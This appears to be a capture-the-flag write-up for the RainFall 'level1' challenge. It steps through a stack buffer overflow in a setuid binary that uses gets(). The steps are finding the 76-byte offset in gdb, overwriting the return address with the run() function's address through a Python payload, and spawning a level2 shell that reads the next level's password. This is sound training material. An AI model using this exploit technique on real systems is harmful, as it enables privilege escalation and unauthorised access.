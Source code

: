 level1
======

*	We spawn with a [level1](source/level1) executable
	```console
	level1@RainFall:~$ ls -l
	total 732
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	level1@RainFall:~$ ./level1 test
	█
	```
	`./level1` is execute as `level2` user
*	It is reading on `STDIN`
*	From now on I will be using [Ghidra](https://ghidra-sre.org/) as a decompiler even tho I made a small script to disassemble our programs
*	Let's take a look at the [code](./source/level1.c)
*	The `main` declares a variable of `76` bytes on the stack and executes `gets()` on it
*	We also have another function called `run()` (which is never called btw) :
	-	execute `fwrite()` with and string on STDOUT
	-	calls `system()` to execute `/bin/sh`
*	We want to try a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/) to access the function to execute `/bin/sh` as level2
*	We can use a generated string from this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to make the offset easier to spot
	```gdb
	(gdb) r
	Starting program: /home/user/level1/level1 
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7A

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()
	(gdb) 
	```
	It makes it easier to spot since when we take a look at `$eip`, we can check the corresponding 4 bytes `0x63413563` since every 4 bytes is different in this string. we confirm that the offset is at 76 bytes
*	Next step is to retrieve the address of `run`
	```gdb
	(gdb) p run
	$1 = {<text variable, no debug info>} 0x8048444 <run>
	```
	We need not to forget the little endian rule when writting the payload -> `\x44\x84\x04\x08`
*	We have everything we need, here is the payload :
	```console
	level1@RainFall:~$ python -c 'print "a"*76  + "\x44\x84\x04\x08"' > /tmp/payload
	```
	Be carefull if you are using perl, python is adding a newline at the end but with `perl -e` you have to add it at the end or it won't be clean
*	Now for the execution we have to make sure to use `cat payload -` so that it keeps listening on STDIN instead of just exiting after the segfault
	```console
	level1@RainFall:~$ cat /tmp/payload - | ./level1 
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```